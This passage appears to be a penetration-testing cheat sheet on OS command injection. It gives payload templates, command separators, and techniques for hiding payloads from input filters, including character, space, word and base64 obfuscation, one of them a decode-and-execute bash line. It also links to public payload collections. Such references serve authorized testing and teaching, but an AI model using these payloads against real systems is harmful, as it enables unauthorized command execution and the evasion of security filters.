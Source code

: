 ### OS Injection

*   Enumeration
    *   Formatted Data Parsers
    *   PREG Replace PHP
    *   OS Input Processing → Inference of `cat` / `tar` / `curl` / `wget` / `ping` / `tee` / Argument Parsing
*   Tools
    *   `osscan() [RAW_REQUEST]`
    *   [Command Injections](https://book.hacktricks.xyz/pentesting-web/command-injection) / [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)
    *   [Argument Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Argument%20Injection) → CURL / FIND / WGET / TAR
    *   [JNDI Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md)            → Header Values + Java Logging
*   Manual
    *   Comments → End payload with `#` or `//` or Language-Specific
    *   `[INPUT][SEPARATOR][COMMAND]`
    *   `` [INPUT]`[COMMAND]` ``
    *   `[INPUT]$([COMMAND])`
    *   Commands
        *   Windows → Start Commands with `cmd /c`
        *   `whoami` / `ping` Check
        *   `echo test > [WEB_READABLE_FILEPATH]`
    *   Obfuscators
        *   [Linux](https://github.com/Bashfuscator/Bashfuscator)
        *   [Windows](https://github.com/danielbohannon/Invoke-DOSfuscation) + Kali `pwsh`
    *   Separators
        *   `;`
        *   `\n`
        *   `&`
        *   `|`
        *   `&&`
        *   `||`
    *   Char Obfuscations
        *   `/` → `echo ${PATH:0:1}`
        *   `;` → `echo ${LS_COLORS:10:1}` / `echo $(tr '!-}' '"-~'<<<:)`
        *   `\` → `echo %HOMEPATH:~6,-11%` / `$env:HOMEPATH[0]` / `echo $(tr '!-}' '"-~'<<<[)`
    *   [Space Obfuscations](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)
        *   `%20`
        *   `%09`
        *   `${IFS}`
        *   `{ls,-la}`
    *   Words Obfuscations
        *   Mix with Space/Char Obfuscations
        *   `w'h'o'am'i`
        *   `w\ho\ami`
        *   `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` / `$(a="WhOaMi";printf %s "${a,,}")`
        *   `$(rev<<<'imaohw')` 
        *   Windows
            *   `who^ami`
            *   `WhOAmi`
            *   `"$('imaohw'[-1..-20] -join '')"`
    *   B64 Obfuscation
        *   Linux
            *   `echo -n [CMD] | base64`
            *   `bash<<<$(base64 -d<<<[B64_STRING])`
        *   Windows
            *   `echo -n [CMD] | iconv -f utf-8 -t utf-16le | base64`
            *   `“$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('B64')))”`

